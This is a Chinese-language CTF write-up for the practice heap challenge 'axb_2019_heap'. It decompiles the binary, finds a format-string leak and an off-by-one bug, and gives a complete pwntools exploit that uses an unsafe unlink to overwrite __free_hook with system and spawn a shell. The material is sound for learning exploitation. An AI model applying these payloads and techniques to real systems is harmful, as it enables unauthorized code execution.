# axb_2019_heap

## 信息收集

&ensp;&ensp;&ensp;&ensp;checksec；



&ensp;&ensp;&ensp;&ensp;跑一下程序；



&ensp;&ensp;&ensp;&ensp;丢到ida64里分析；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;main()函数

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int choice; // [rsp+Ch] [rbp-4h]

  init();
  banner();
  while ( 1 )
  {
    menu();
    choice = get_int();
    switch ( choice )
    {
      case 1:
        add_note();
        break;
      case 2:
        delete_note();
        break;
      case 3:
        puts("None!");
        break;
      case 4:
        edit_note();
        break;
      default:
        puts("No such choices!");
        break;
    }
  }
}
```


&ensp;&ensp;&ensp;&ensp;banner()函数

```C
unsigned __int64 banner()
{
  char format; // [rsp+Ch] [rbp-14h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Welcome to note management system!");
  printf("Enter your name: ");
  __isoc99_scanf("%s", &format);
  printf("Hello, ", &format);
  printf(&format);
  puts("\n-------------------------------------");
  return __readfsqword(0x28u) ^ v2;
}
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;format参数是一个很重要的提示，这里存在格式化字符串漏洞，可以泄露libc地址；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;调试可以得到：

```纯文本
klose@ubuntu:~/ctf/pwn/file/buuctf/axb_2019_heap$ gdbchoose 
Please choose the mode of GDB?
1.peda    2.gef    3.pwndbg
Input your choice:3
Please enjoy pwndbg!

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
pwndbg: loaded 175 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
/home/klose/.gdbinit:14: Error in sourced command file:
This command cannot be used at the top level.
pwndbg> file axb_2019_heap 
Reading symbols from axb_2019_heap...(no debugging symbols found)...done.
pwndbg> b banner
Breakpoint 1 at 0xae9
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;输入'aaaaaaaa'；



&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;调试可得：



&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;`__libc_start_main + 240`和`main`在栈上的位置相对于格式化字符串为：

```纯文本
%15$p.%19$p
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;由此可以获得这两个地址；

&ensp;&ensp;&ensp;&ensp;get_input()函数

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;在edit_note()函数中存在get_input()函数；

```C
size_t __fastcall get_input(__int64 a1, int a2)
{
  size_t result; // rax
  signed int v3; // [rsp+10h] [rbp-10h]
  _BYTE *v4; // [rsp+18h] [rbp-8h]

  v3 = 0;
  while ( 1 )
  {
    v4 = (_BYTE *)(v3 + a1);
    result = fread(v4, 1uLL, 1uLL, stdin);
    if ( (signed int)result <= 0 )
      break;
    if ( *v4 == 10 )
    {
      if ( v3 )
      {
        result = v3 + a1;
        *v4 = 0;
        return result;
      }
    }
    else
    {
      result = (unsigned int)++v3;
      if ( a2 + 1 <= (unsigned int)v3 )         // off by one
        return result;
    }
  }
  return result;
}
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;在`a2+1≤v3`处存在off-by-one漏洞；

## 漏洞利用

&ensp;&ensp;&ensp;&ensp;存在off-by-one漏洞，而且对chunk的大小有具体限制，那么可以利用unsafe unlink attack，调用__free_hook钩子以在free的时候调用system函数，至于`'/bin/sh'`只需要作为一个chunk_content输入就好了；

&ensp;&ensp;&ensp;&ensp;首先泄露关键地址

```Python
def leak():
    p.recvuntil('Enter your name: ')
    p.sendline("%15$p.%19$p")
    __libc_start_main_ret = int(p.recvuntil('840')[-14:],16) 
    __libc_start_main = __libc_start_main_ret - 240
    p.recvuntil("0x")
    
    main_base = int(p.recv()[0:12],16) - 0x116a
    libc_base = __libc_start_main - 0x20750
    heap_ptr = main_base + 0x202060
    __free_hook = libc_base + 0x3c67a8
    system_addr = libc_base + 0x453a0
    log.success('libc_base => ' + hex(libc_base))
    log.success('__libc_start_main_ret=> ' + hex(__libc_start_main_ret))
    log.success('__libc_start_main => ' + hex(__libc_start_main))
    log.success('main_base => ' + hex(main_base))
    log.success('heap_ptr => ' + hex(heap_ptr))
    log.success('__free_hook => ' + hex(__free_hook))
    log.success('system_addr => ' + hex(system_addr))
```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;进而获取相关的libc基址等信息；



&ensp;&ensp;&ensp;&ensp;接着构造unsafe unlink attack；

```Python
def add(index, size, content):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":\n")
    p.sendline(str(size))
    p.recvuntil(": \n")
    p.sendline(content)

def delete(index):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil(":\n")
    p.sendline(str(index))

def show():
    p.sendline("3")

def edit(index, content):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil(":\n")
    p.sendline(str(index))
    p.recvuntil(": \n")
    p.sendline(content)

def unlink():
    show()                            # 这是为了响应leak时触发的menu
    # add(0, 0x88, 'a' * 0x90)        # 0x88不合适，因为构造fake chunk的时候，chunk_size为0x80
    add(0, 0x98, 'a' * 0x90)
    # debug(0)
    add(1, 0x90, 'b' * 0x90)
    add(2, 0x88, '/bin/sh\x00')         # system('/bin/sh')
    # debug(0)
    
    payload  = p64(0)                   # fake prev_size
    payload += p64(0x91)                # fake size
    payload += p64(heap_ptr - 0x18)     # fake fd
    payload += p64(heap_ptr - 0x10)     # fake bk(target)
    payload += p64(0) * 14              # padding 
    payload += p64(0x90)                # fake prev_size
    payload += b'\xa0'                  # off-by-one to change PREV_INUSE of next chunk
    edit(0, payload)
    # debug(0)

    delete(1)                           # trigger unsafe unlink attack
    # debug(0)

```


&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;来逐步看看都发生了什么；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;在构造fake chunk的时候，要注意以下几点：

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;1. fake chunk size要符合要求：`fake chunk size = chunk0_size - 0x10`

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;2. 为了绕过链表前后检查，fd应当设置为`target_addr - 0x18`，bk设置为`target_addr - 0x10`

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;3. 为了让glibc认为fake chunk为空，`next chunk prev size = fake chunk size - 1`，利用off-by-one修改`next chunk PREV_INUSE=0`

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;因此才构成了上面的payload；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;`delete(1)`为触发unsafe unlink attack；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;具体的堆布局会如下变化：

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;1. malloc three chunk





&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;2. send payload





&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;3. delete to trigger unsafe unlink







&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;完成后，chunk0_ptr将指向fake_fd，即`target_addr - 0x18`的位置；

&ensp;&ensp;&ensp;&ensp;接着进行pwn操作；

```Python
def pwn():
    edit(0, p64(0)*3 + p64(__free_hook) + p64(0x10))
    # debug(0)
    edit(0, p64(system_addr))
    # pause()
    delete(2)
    pause()

    p.interactive()
```






&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;这样修改过后，由于chunk0_ptr = chunk0_ptr[3] = __free_hook_addr，只需要在chunk0_ptr处填充system_addr，则可以实现__free_hook内容被修改为system_addr；

&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;&ensp;调用即可得到shell；



&ensp;&ensp;&ensp;&ensp;exp如下：

```Python
# coding:utf-8
from glob import glob
from os import system
from random import SystemRandom
from pwn import *
context.log_level = 'debug'

proc_name = 'axb_2019_heap'
islocal = 1
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
elf = ELF(proc_name)

if islocal:
    p = process(proc_name)
else:
    p = remote('node4.buuoj.cn', 28198)

def debug(addr, PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr)))

def add(index, size, content):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":\n")
    p.sendline(str(size))
    p.recvuntil(": \n")
    p.sendline(content)

def delete(index):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil(":\n")
    p.sendline(str(index))

def show():
    p.sendline("3")

def edit(index, content):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil(":\n")
    p.sendline(str(index))
    p.recvuntil(": \n")
    p.sendline(content)

def leak():
    global heap_ptr
    global __free_hook
    global system_addr
    global main_base

    p.recvuntil('Enter your name: ')
    p.sendline("%15$p.%19$p")
    # __libc_start_main_ret = int(p.recvuntil('840')[-14:],16)      # local 
    __libc_start_main_ret = int(p.recvuntil('830')[-14:],16)
    __libc_start_main = __libc_start_main_ret - 240
    p.recvuntil("0x")
    main_base = int(p.recv()[0:12],16) - 0x116a
    # libc_base = __libc_start_main - 0x20840                       # local
    libc_base = __libc_start_main - 0x20740
    heap_ptr = main_base + 0x202060
    __free_hook = libc_base + 0x3c67a8
    # system_addr = libc_base + 0x453a0     # local
    system_addr = libc_base + 0x45390
    log.success('libc_base => ' + hex(libc_base))
    log.success('__libc_start_main_ret=> ' + hex(__libc_start_main_ret))
    log.success('__libc_start_main => ' + hex(__libc_start_main))
    log.success('main_base => ' + hex(main_base))
    log.success('heap_ptr => ' + hex(heap_ptr))
    log.success('__free_hook => ' + hex(__free_hook))
    log.success('system_addr => ' + hex(system_addr))
    # pause()

def unlink():
    show()
    # add(0, 0x88, 'a' * 0x90)        # 0x88不合适，因为构造fake chunk的时候，chunk_size为0x80
    add(0, 0x98, 'a' * 0x90)
    # debug(0)
    add(1, 0x90, 'b' * 0x90)
    add(2, 0x88, '/bin/sh\x00')         # system('/bin/sh')
    # debug(0)
    
    payload  = p64(0)                   # fake prev_size
    payload += p64(0x91)                # fake size
    payload += p64(heap_ptr - 0x18)     # fake fd
    payload += p64(heap_ptr - 0x10)     # fake bk(target)
    payload += p64(0) * 14              # padding 
    payload += p64(0x90)                # fake prev_size
    payload += b'\xa0'                  # off-by-one to change PREV_INUSE of next chunk
    edit(0, payload)
    # debug(0)

    delete(1)                           # trigger unsafe unlink attack
    # debug(0)

def pwn():
    edit(0, p64(0)*3 + p64(__free_hook) + p64(0x10))
    # debug(0)
    edit(0, p64(system_addr))
    # debug(0)
    delete(2)
    pause()

    p.interactive()

if __name__ == '__main__':
    leak()
    unlink()
    pwn()
```

连buu的时候要注意libc的问题；

